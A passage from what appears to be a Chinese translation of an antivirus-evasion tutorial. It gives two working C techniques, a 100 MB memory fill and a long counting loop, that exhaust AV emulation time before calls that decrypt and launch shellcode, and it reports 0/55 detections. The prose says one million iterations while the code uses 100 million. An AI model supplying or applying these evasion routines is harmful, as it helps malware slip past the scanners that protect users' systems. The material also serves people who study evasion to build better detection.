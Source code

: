 AV扫描器主要的限制是需要在每个文件上花费大量的时间。在一个常规的系统扫描中，AV必须要分析成百上千的文件。它不能够花费过多的时间和力量在个别的文件上（这就可以在AV上导致一个拒绝服务攻击）。最简单绕过AV的方法是仅仅在代码解密之前，消耗掉AV足够的时间。一个简单的Sleep不能够实现这个技巧，AV模拟器已经适应了这个。无论如何有大量的方法可以实现取得时间。这个被叫做“Offer you have to refuse ”，因为它强行让AV去检查一些代码，这个会消耗掉AV大量的资源，因此我们确信在解密代码被执行之前AV会放弃这个检查。

### 例子1：分配填充100M内存

在下面的代码中，大部分的AV会在malloc的过程中仅仅停止，关于分配指针的条件验证甚至没有必要。

```c
#define TOO_MUCH_MEM 100000000
int main()
{
    char *memdmp = NULL;
    memdmp = (char *)malloc(TOO_MUCH_MEM);
    if (memdmp != NULL)
    {
        memset(memdmp, 00, TOO_MUCH_MEM);
        free(memdmp);
        decryptCodeSection();
        startShellCode();
    }
    return 0;
}
```

当时的VT：0/55

### 例子2：成百上千的递增

使用for循环去每次递增1，达到100万次。这个足以绕过杀软，而且对于现代CPU是可行的。一个人在运行这段代码不会检测到任何的异常。

```c
#define MAX_OP 100000000
int main()
{
    int cpt = 0;
    int i = 0;
    for (i = 0; i < MAX_OP; i++)
    {
        cpt++;
    }
    if (cpt == MAX_OP)
    {
        decryptCodeSection();
        startShellCode();
    }
    return 0;
}
```



## The “I shouldn’t be able to do that!” method
